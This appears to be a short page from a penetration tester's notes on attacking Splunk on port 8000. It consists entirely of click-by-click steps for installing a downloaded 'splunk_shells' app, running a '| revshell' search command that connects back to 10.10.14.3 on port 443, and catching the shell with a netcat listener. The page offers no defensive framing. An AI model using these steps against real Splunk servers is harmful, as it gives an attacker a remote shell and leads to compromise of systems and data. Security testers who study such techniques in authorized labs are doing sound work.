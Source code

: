 # (8000) Splunk

<details>

<summary>Reverse Shell from Splunk</summary>

Download  [https://github.com/TBGSecurity/splunk\_shells/archive/1.2.tar.gz](https://github.com/TBGSecurity/splunk_shells/archive/1.2.tar.gz)

Click on "Search & Reporting"

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

"App: Search & Reporting" --> Manage Apps

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

"Install app from file"

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Upload "splunk\_shells-1.2.tar.gz"

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

"Restart Now"

<figure><img src="../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

Go to "App: Search & Reporting" and use the command: `| revshell std 10.10.14.3 443`

<figure><img src="../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

Click on "Permissions"

<figure><img src="../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

Select "All apps" --> "Save"

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

nc -lvp 443

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

</details>
